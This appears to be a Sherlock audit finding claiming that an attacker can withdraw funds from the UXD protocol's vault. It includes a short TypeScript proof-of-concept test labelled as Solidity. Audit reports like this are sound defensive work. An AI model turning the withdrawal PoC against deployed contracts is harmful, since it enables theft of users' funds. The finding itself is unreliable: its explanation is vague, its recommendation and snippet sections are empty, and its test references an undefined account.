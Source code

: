 Nyx

high

# Attacker can steal from vault

## Summary
Attacker can steal funds from vault.
## Vulnerability Detail
When minting, it finds a depository for assetsToken and deposits it. Then depository sends asset Tokens to the vault. But attackers can withdraw funds from vault.

https://github.com/sherlock-audit/2023-01-uxd/blob/main/contracts/core/UXDController.sol#L245-L248

https://github.com/sherlock-audit/2023-01-uxd/blob/main/contracts/integrations/perp/PerpDepository.sol#L240-L245

test : perpDepository.test.ts

```solidity
it("can deposit", async () => {
    const { depository, controller, vault, baseToken } = await loadFixture(
      deployPerpDepositoryFixture
    );
    const collateralAmount = ethers.utils.parseEther("1");

    await (
      await baseToken.transfer(depository.address, collateralAmount)
    ).wait();
    await (
      await controller.deposit(baseToken.address, collateralAmount)
    ).wait();

    const bobBalanceBefore = await baseToken.balanceOf(bob.address);
    console.log("before", bobBalanceBefore.toString());

    await (
      await vault.connect(bob).withdraw(baseToken.address, collateralAmount)
    ).wait();
    const bobBalanceAfter = await baseToken.balanceOf(bob.address);
    console.log("after", bobBalanceAfter.toString());
    
  });
```
## Impact
Protocol can lose funds.
## Code Snippet

## Tool used

Manual Review

## Recommendation

